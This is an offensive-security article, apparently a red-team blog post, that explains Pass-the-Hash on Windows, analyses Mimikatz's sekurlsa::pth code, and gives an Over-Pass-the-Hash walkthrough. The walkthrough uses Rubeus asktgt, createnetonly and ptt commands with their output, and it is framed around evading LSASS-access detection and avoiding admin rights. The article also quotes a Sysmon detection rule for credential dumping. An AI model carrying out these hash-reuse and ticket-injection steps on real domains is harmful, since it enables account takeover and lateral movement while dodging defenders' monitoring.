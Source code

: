 > The **Pass-The-Hash** technique is an essential foundation of lateral movement on Windows. It allows you to assign the rights associated with a user based solely on their NT hash. However, this technique, which is commonly used by **Mimikatz**, is easily detectable. Besides, it requires requesting Local Administrator rights to write to the **LSASS.exe** process.

In this article, we will briefly see how Pass-The-Hash works, and then analyze how Mimikatz's PTH (Pass-The-Hash) module works. Finally, we will see a technique offering better OPSec (Operation Security) and not requiring Local Administrator rights.

* * *

## Pass The Hash - Overview

PTH is a technique exploiting the operation of the NTLMv1/v2 protocols to authenticate to a remote resource without using the user's plain text password. First, let's see the basic operation of the NTLM protocol:

- First, the client will request a "negotiation" (type 1 message) to agree with the server on the supported functions.
- The server sends back a "challenge" (type 2 message), which is a random value generated on each request.
- The client returns the "response" of the challenge (type 3 message). This is quite simply the encryption of the challenge using the NT hash as the encryption key.

This is when the server will verify the challenge. Either by reproducing it with the client's NT hash in the SAM database if it is a local account or by sending the challenge back to the domain controller if it is a domain account.

What must be understood here is that the user's plain text password never comes into account. Only its hash is useful! It is therefore easy for an attacker who only has the hash of an account to authenticate with domain resources. However, this technique has limits depending on the User Access Control (UAC) policies configured in the system.

* * *

## Mimikatz and PTH

[Mimikatz](https://github.com/gentilkiwi/mimikatz) it's now well known to extract plaintexts passwords, hash, PIN code, and Kerberos tickets from memory. Mimikatz can also perform pass-the-hash, pass-the-ticket, or build Golden tickets.

Several tools propose the use of PTH during authentication but the operations differ. Even if NTLM does not take into account the plain text password, Windows is not designed to let the user directly enter his NT hash as an authentication method, it is, therefore necessary to adapt to allow this operation to be done.

This is what **impacket** does for example. This Python library provides very low-level access to Windows packages. This allows in particular, to rewrite challenge/response packets directly based on the hash given as input. Thus, the re-implementation of the SMB stack makes it possible to dispense with the use of the plain text password and to pass the hash directly to the targeted machine. Mimikatz and its `sekurlsa::pth` command took another approach rewriting hashes in memory. Here is the piece of code used by this tool:

```html
if(kull_m_process_create(KULL_M_PROCESS_CREATE_LOGON, szRun, CREATE_SUSPENDED, NULL, LOGON_NETCREDENTIALS_ONLY, szUser, szDomain, L"", &processInfos, FALSE))
{
    kprintf(L" | PID %u\n | TID %u\n",processInfos.dwProcessId, processInfos.dwThreadId);
    if(OpenProcessToken(processInfos.hProcess, TOKEN_READ | (isImpersonate ? TOKEN_DUPLICATE : 0), &hToken))
    {
           if(GetTokenInformation(hToken, TokenStatistics, &tokenStats, sizeof(tokenStats), &dwNeededSize))
           {
               kuhl_m_sekurlsa_pth_luid(&data);
```

We quickly understand that Mimikatz will create a new process then write in the "Logon Session" associated with the token via the `kuhl_m_sekurlsa_pth_luid` function. This implies two things:

- Mimikatz will write to the `LSASS.exe` process, so you must be a local administrator of the machine.
- An OpenProcess will be performed on `LSASS.exe`, the access rights requested by Mimikatz are very specific and will raise an alert if detection rules are properly configured.

```html
<Rule groupRelation="and">
    <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
    <GrantedAccess>0x1FFFFF</GrantedAccess>
</Rule>
```

* * *

## Over-Pass-The-Hash and Rubeus

As we have seen, the Mimikatz technique has limitations as well as poor OPSec. Let's see what solutions can bring us to an equivalent result while avoiding the limitations of Mimikatz.

[Rubeus](https://github.com/GhostPack/Rubeus) is a `C#` toolset for raw Kerberos interaction and abuses. This project offers a multitude of features such as kerberoast, asreproast, s4u, and much more. Here, we will use several of these features to perform an OPTH (Over-Pass-The-Hash).

The OPTH is a revisit of the classic PTH where we use the obtained NT hash to request a ticket of type TGT to the domain controller to then inject it into a process. Thus, we are going to free ourselves from the NTLM protocol which is now less used in favor of Kerberos and we will also free ourselves from the rewrite of `LSASS.exe`. This makes a better OPSec possible and does not require us to be Local Administrator.

Let us now see in practice the realization of this technique with Rubeus. First, we will request a TGT ticket from the domain controller using the `asktgt` command:

```html
C:\Rubeus>Rubeus.exe asktgt /user:<redacted> /rc4:<redacted>

[*] Action: Ask TGT

[*] Using rc4_hmac hash: <redacted>
[*] Building AS-REQ (w/ preauth) for: 'domain\<redacted>'
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFXDCCB[…]WMuaW8=

[*] Action: Describe Ticket

  UserName      :  <redacted>
  UserRealm     :  <redacted>
  ServiceName   :  krbtgt/<redacted>
  ServiceRealm  :  <redacted>
  StartTime     :  24/05/2020 16:18:45
  EndTime       :  25/05/2020 02:18:45
  RenewTill     :  04/06/2020 16:18:45
  Flags         :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType       :  rc4_hmac
  Base64(key)   :  k++fpN2g7xZn8bjbdD+xQg==
```

Our ticket is simply the string converted into base64. We must now remove the line breaks to have the base64 in the form of a character string. Another important detail, a "Logon Session" can only accommodate one TGT ticket. If we injected our TGT ticket into an existing "Logon Session", we will encounter some problems. To remedy this, we can use the `createnetonly` feature which allows us to create a hidden process with `SECURITY_LOGON_TYPE 9`. This technique will allow us to inject our ticket into complete security and serenity.

```html
C:\Rubeus>Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe"

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Create Process (/netonly)

[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 9936
[+] LUID            : 0x4a0717f
```

Obviously, this command generates an event id type 1 "Process Created". It is now possible to pass our ticket in this "Logon Session" via the Rubeus `ptt` command:

```html
C:\Rubeus>Rubeus.exe ptt /ticket:<ticket en base64> /luid:0x4a0717f

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

At this point, we can check the presence of our ticket in this process using the Rubeus `triage` command:

```html
----------------------------------------------------------------------------------
| LUID      | UserName               | Service              | EndTime            |
----------------------------------------------------------------------------------
| 0x4a0717f | redacted @ redacted    | krbtgt/redacted      | 25/05/2020 02:18:45|
----------------------------------------------------------------------------------
```

Perfect! This process is now linked to a "Logon Session" containing the TGT ticket requested using the user's NT hash. If we migrate in this process via the `inject` command from **Cobalt Strike** or `migrate` from **Meterpreter**, we will have the rights associated with the spoofed user. Note that we have not opened the `LSASS.exe` process since the Rubeus PTT is done as follows:

```html
if(arguments.ContainsKey("/ticket"))
{
    string kirbi64 = arguments["/ticket"];
    if(Helpers.IsBase64String(kirbi64))
    {
        byte[] kirbiBytes = Convert.FromBase64String(kirbi64);
        LSA.ImportTicket(kirbiBytes, luid);
```

The `ImportTicket` function is based on the `LsaCallAuthenticationPackage` function:

```html
var inputBufferSize = Marshal.SizeOf(typeof(Interop.KERB_SUBMIT_TKT_REQUEST)) + ticket.Length;
inputBuffer = Marshal.AllocHGlobal(inputBufferSize);
Marshal.StructureToPtr(request, inputBuffer, false);
Marshal.Copy(ticket, 0, new IntPtr(inputBuffer.ToInt64() + request.KerbCredOffset), ticket.Length);
ntstatus = Interop.LsaCallAuthenticationPackage(LsaHandle, AuthenticationPackage, inputBuffer, inputBufferSize, out ProtocolReturnBuffer, out ReturnBufferLength, out ProtocalStatus);
```

Thus, no capricious "patch" was made on LSASS.exe which allows us to keep better OPSec.

* * *

## Conclusion

We have seen an alternative technique to Mimikatz allowing us to have a session in the context of a user whose only NT hash is known. This technique is heavier but allows us to protect our OPSec. It is important to note that Rubeus is written in `C#` and therefore can be used directly by loading it into memory. Which is a powerful asset. Besides, being able to use this technique allows us to avoid an LPE (Local Privilege Escalation) which could be very verbose in the security logs.